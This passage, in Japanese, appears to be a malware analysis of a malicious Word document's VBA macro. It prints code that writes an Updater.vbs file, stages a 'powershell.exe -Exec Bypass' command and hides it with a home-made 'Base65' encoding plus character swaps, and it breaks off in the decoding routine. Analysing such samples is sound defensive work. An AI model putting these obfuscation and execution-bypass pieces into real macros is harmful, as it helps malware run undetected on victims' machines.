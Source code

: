 
次に、meetとchatの内容（`updater.vbs`の実行内容）は以下です。
まず、以下のようになっているため、VBSの実行内容はpowershellの実行コマンド（`script.ps1`）をxxxという変数にセットしたうえで、`chat`に書いたコマンドを実行する形です。
```vb
    inp = Google.meet.Text
    pla = Google.chat.Text
    ' 省略
    VBS = "xxx = """ & inp & """" & vbNewLine & pla
    Set FSO2 = CreateObject("Scripting.FileSystemObject")
    Set FS2 = FSO2.CreateTextFile(Pathh & "Updater.vbs", True)
    FS2.WriteLine VBS
```

以下がxxxの元となる内容ですね。

```
VBA FORM Variable "b'meet'" IN 'word/vbaProject.bin' - OLE stream: 'Google'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
b'powershell.exe -Exec Bypass PATHScript.ps1'
```

ただし、このxxxはBase65でのencryptionをしているようです。

```vb
    inp = Replace(inp, "PATH", Pathh)
    inp = EncodeBase65(inp)
    inp = Replace(inp, "a", "@")
    inp = Replace(inp, "H", "-")
    inp = Replace(inp, "S", "$")
```

base65は聞いたことがないですが、どうやら自作のようですね。以下のようなコマンドを行っているようです。  
ただ、どちらかというとその後のreplaceが肝って感じですかね。  
これなら、書かれてるコマンドを自動的にはデコードできないでしょうから。  

```vb
Function EncodeBase65(Text$)
    Dim b
    With CreateObject("ADODB.Stream")
        .Open: .Type = 2: .Charset = "utf-8"
        .WriteText Text: .Position = 0: .Type = 1: b = .Read
        With CreateObject("Microsoft.XMLDOM").CreateElement("b64")
            .dataType = "bin.base64": .nodeTypedValue = b
            EncodeBase65 = Replace(Mid(.Text, 5), vbLf, "")
        End With
        .Close
    End With
End Function
```

##### vbsファイルの解析


さて、次にvbsの内容ですが、これはどうやらデコードして実行するだけですね。  

```vb
Private Function Stream_BinaryToString(Binary)
  Const adTypeText = 2
  Const adTypeBinary = 1
  Set BinaryStream = CreateObject("ADODB.Stream")
  BinaryStream.Type = adTypeBinary
  BinaryStream.Open
  BinaryStream.Write Binary
  BinaryStream.Position = 0
  BinaryStream.Type = adTypeText
  BinaryStream.CharSet = "us-ascii"
  Stream_BinaryToString = BinaryStream.ReadText
  Set BinaryStream = Nothing
End Function
Function Base64Decode(ByVal vCode)
```